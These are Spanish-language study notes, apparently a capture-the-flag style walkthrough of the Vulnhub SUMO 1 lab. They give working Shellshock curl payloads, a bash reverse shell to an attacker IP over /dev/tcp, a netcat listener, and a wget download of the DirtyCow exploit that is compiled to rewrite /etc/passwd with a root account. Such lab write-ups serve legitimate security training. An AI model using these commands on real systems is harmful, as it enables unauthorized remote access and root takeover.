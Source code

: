 

Material de ayuda:
Vulnhub
SUMO 1

Se puede explotar Kernel debido a su version antigua




Nos bajamos el OVA de Vulnhub y ejecutamos la maquina

Primero que nada hacemos un escaneo arp para hayas la ip a explotar
arp-scan -I ens33 --localnet --ingoredups 

La informacion que poseemos es que tiene un servidor http en elpuerto 80
y de primeras tendremos que explotar un shellshock

192.168.0.222
![[Pasted image 20250421094126.png]]

Haremos un descubrimiento de rutas con gobuster

`gobuster dir -u http://192.168.0.222/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash`


***Encontramos un /cgi-bin/***

Volveremos a hacer un escaneo con gobuster para encontrar dentrp de la ruta cgi-bin

`gobuster dir -u http://192.168.0.222/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x sh,pl,cgi`

***Encontramos/test.sh

Nos metemos al explorador y buscamos /cgi-bin/test.sh

![[Pasted image 20250421094840.png]]

Nos apoyamos buscando en el explorador
How Attackers are using it shellshock de cloudfare

Recordemos:
La explotacion era por medio del metodo get

curl -s -X GET "http://192.168.0.222/cgi-bin/test.sh" -H "User-Agent:   () { :; }; /usr/bin/whoami"

En caso de no ver en el output la respuesta del servidor hacemos lo siguiente:
Agregamos un echo; antes del comando a ejecutar
`root@parrot /home/ken $ curl -s -X GET "http://192.168.0.222/cgi-bin/test.sh" -H "User-Agent: () { :; }; echo; /usr/bin/whoami"`
`www-data`
`root@parrot /home/ken

Ahora viendo que tenemos ejecucion de comandos hacemos lo siguiente (asi ejecutamos una shell de manera remota):

 curl -s -X GET "http://192.168.0.222/cgi-bin/test.sh" -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/192.168.0.62/443 0>&1"
 
 Ademas :
 Nos ponemos en escucha con netcat 
 nc -nlvp 443
 si no recibimos conexion utilizamos 
 iptables -I INPUT -j ACCEPT
  y ejecutamos netcat
  Resultado:
  `
![[Pasted image 20250421100607.png]]

Hacemos tratamiento TTI

Una vez hecho

lsb_release -a (lo usamos para ver la version de ubuntu)
uname -a (para ver version kernel)

![[Pasted image 20250421111127.png]]

Como podemos observar tenemos version de kernel 3.2

Buscamos con la herramienta searchsploit para ver las vulnerabilidades de esa version de kernel
`searchsploit Kernel 3.2`

Nos apareceran varias veces DirtyCow(scrripts en C)
CVE-2016-5195
Indagando mas nos aparecera una vulnerabilidad llamada Race Condition

`searchsploit Dirty cow

Vamos a utilizar la vulnerabilidad que altera el /etc/passwd

```
searchsploit dirty cow /etc/passwd
```

![[Pasted image 20250421113205.png]]

Utilizaremos ptrace_pokedata

`searchsploit -x linux/local40839.c


which gcc
(Nos moveremos el script de searchsploit a la maquina victima)
searchsploit -m /linux/local/40839.c

lo bajamos y levantamos un servidor en python para bajarlo en la maquina victima
Nos vamos al /tmp/ (en la maquina victima)
Para bajarlo hacemos wget (IP-ATACANTE)/40839.c



Muchas veces esos script te dicen en el codigo lo que se debe de hacer

`cat 40839.c | grep gcc`


``www-data@ubuntu:/tmp$ cat dirtycow.c | grep gcc``
``//   gcc -pthread dirty.c -o dirty(este sera el nombre del binario) -lcrypt``
``www-data@ubuntu:/tmp$

 
gcc -pthread dirtycow.c -o dirty -lcrypt

OJO:
Si presentas problema donde no te permite utilizar el comando anterior prueba ejecutando esto
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

y luego ejecuta :
		gcc -pthread dirtycow.c -o dirty -lcrypt
Asi se ha creado el binario para modificar el /etc/passwd


![[Pasted image 20250421122005.png]]

Altera y retoca el etc/passwd para crear un usuario y contraseña hardcodeada

Lo puedes modificar en el codigo user.name

Se tiene que ejecutar el exploit y pedira ingresar la contraseña que se hardcodeara en el /etc/passwd

![[Pasted image 20250421122257.png]]


Como pdemos observar en la imagen se creo el usuario root con la contraseña hardcodead
![[Pasted image 20250421122442.png]]


Si quieres restablecer el /etc/passwd
se crea un /etc/passwd.bak  o /etc/passwd- con la configuracion original

Conclusion cuando se explote una maquina para escalar privilegios podemos  revisar la version de kernel que tiene y podemos buscar la explotacion

#TAREA
TAREA: EXPLOTAR 37292 (puedes apoyarte con la pagina vk9-sec.com)
recordemos que primero se exploto un shellshock
searchsploit 37292

HERRAMIENTA DE APOYO:
En caso de que no encuentres una vulnerabilidad hay en github
LES: Linux privilege escalation auditing tool The-X-Labs

La herramienta LES te da los CVE y los detalles acerca de la vulnerabilidad



